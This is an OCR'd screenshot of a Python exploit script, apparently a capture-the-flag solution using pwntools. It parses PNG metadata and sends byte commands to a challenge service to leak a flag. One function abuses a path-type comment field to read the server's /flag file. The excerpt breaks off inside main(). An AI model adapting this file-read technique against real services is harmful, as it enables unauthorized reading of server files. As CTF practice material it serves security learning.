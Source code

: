 ```python
    for i, tok in enumerate(tokens):
        # Allow cases like 'tEXtAuthor' by checking substring containment
        matched_key: Optional[bytes] = None
        for k in keys:
            if tok == k or (k in tok):
                matched_key = k
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=1.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def exploit_fetch_flag_via_comment(io) -> bytes:
    """Abuse comment type=2 (path) to read /flag plaintext and return it."""
    # 0x10: enable
    send_cmd(io, b"\x10")
    io.recv(timeout=0.5)
    # 0x22: create default entry (comment type preset to 2)
    send_cmd(io, b"\x22")
    io.recv(timeout=0.5)
    # 0x31: set comment to path "/flag" (length-prefixed blob)
    send_cmd(io, b"\x31")
    send_length_prefixed_blob(io, b"/flag")
    io.recv(timeout=0.5)
    # 0x30: get comment value; server returns a tagged blob containing file contents
    send_cmd(io, b"\x30")
    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return b""
    _tag, payload = chunk
    return payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        # First path: MD5-hex via PNG metadata bundle
        kv, raw = exploit_fetch_metadata(io)
```